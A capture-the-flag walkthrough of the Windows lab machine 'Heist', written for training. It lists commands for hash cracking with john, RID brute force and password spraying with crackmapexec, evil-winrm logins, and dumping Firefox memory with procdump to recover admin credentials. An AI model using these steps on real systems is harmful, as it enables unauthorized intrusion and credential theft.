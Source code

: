 # 🧠 HTB: Heist – Walkthrough

# 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)

## ⚙️ Recon

**Nmap Scan**
```bash
nmap -p- --min-rate 10000 -oA nmap-alltcp 10.10.10.149
```
- Port 80: HTTP Web Portal

---

## 🌐 [Web Enumeration](HTTP)

**Browse Web Portal**
- Navigate to: `http://10.10.10.149`
- Found a **Guest login** → displayed usernames and an **attachment** with Cisco password hashes.

---

## 🔓 Cracking Hashes

### 🧩 Type 5 Hash
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### 🧩 Type 7 Hash
Use online Cisco Type 7 decoder (e.g. https://insecure.org/sploits/cisco.password.decoder.html)

---

## 👤 User Enumeration

**RID Brute Force with [CrackMapExec](SMB.md)**
```bash
crackmapexec smb 10.10.10.149 --rid-brute
```

**Password Spray**
```bash
crackmapexec smb 10.10.10.149 -u usernames.txt -p crackedpass
```

---

## 🔐 Gaining Remote Access

**Connect via Evil-WinRM or WinRM manually**
```bash
evil-winrm -i 10.10.10.149 -u ch4rl3s -p [cracked_password]
```

🎉 Found `user.txt` in `C:\Users\ch4rl3s\Desktop`

---

## 🕵️ Investigating the System

**Check files**
```powershell
Get-ChildItem -Path C:\Users\ch4rl3s\Documents\
type C:\Users\ch4rl3s\Documents\todo.txt
```

**Enumerate Processes**
```powershell
Get-Process | where { $_.Path -like "*firefox*" }
```

---

## 📦 Dumping and Analyzing Firefox Memory

**Dump Process Memory**
```powershell
procdump64.exe -ma firefox_pid firefox.dmp
```

**Transfer to attacker machine**
- Use SMB or upload via Evil-WinRM.

**Analyze Memory**
```bash
strings firefox.dmp | grep -i password
```
🎯 Recovered admin credentials!

---

## 🚀 Escalating to Administrator

**Reuse credentials with Evil-WinRM**
```bash
evil-winrm -i 10.10.10.149 -u administrator -p [discovered_password]
```

🎉 Grab `root.txt` from `C:\Users\Administrator\Desktop\`

---

## ✅ Conclusion

- Web app led to leaked Cisco hashes
- Cracking hashes enabled password spray
- Dumped Firefox process memory to recover admin creds
- Completed full escalation path!